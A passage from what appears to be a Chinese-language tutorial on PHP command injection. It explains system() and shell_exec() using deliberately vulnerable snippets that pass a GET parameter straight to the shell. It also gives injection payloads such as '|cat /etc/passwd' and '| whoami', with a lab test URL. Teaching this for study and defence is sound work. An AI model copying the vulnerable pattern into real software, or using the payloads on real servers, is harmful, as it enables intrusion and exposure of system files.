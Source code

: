 #### 1.3.2 system()函数造成的漏洞

```

1、函数用法:
System(string command,int &return_var)
Command 要执行的命令
Return_var 存放命令的执行后的状态值
2、环境源码：

<?php
$cmd = $_GET['cmd'];
if(isset($cmd)){
    echo system("dir".$cmd);
}
?>
构造语句：
Cmd=| /etc/passwd

```

测试：`http://172.16.3.186/system.php?cmd=|cat%20%20/etc/passwd`

![image-20220409155040613](../../images/image-20220409155040613.png)

#### 1.3.3 shell_exec()函数造成的漏洞

```
1、函数用法：
shell_exec(string command)
command 要执行的命令
2、环境源码：

<?php
$cmd = $_GET['cmd'];
if(isset($cmd)){
    echo "<h3>";
    echo shell_exec("dir".$cmd);
    echo "<h3>";
}
?>
4、 测试：
构造语句： | whoami

```
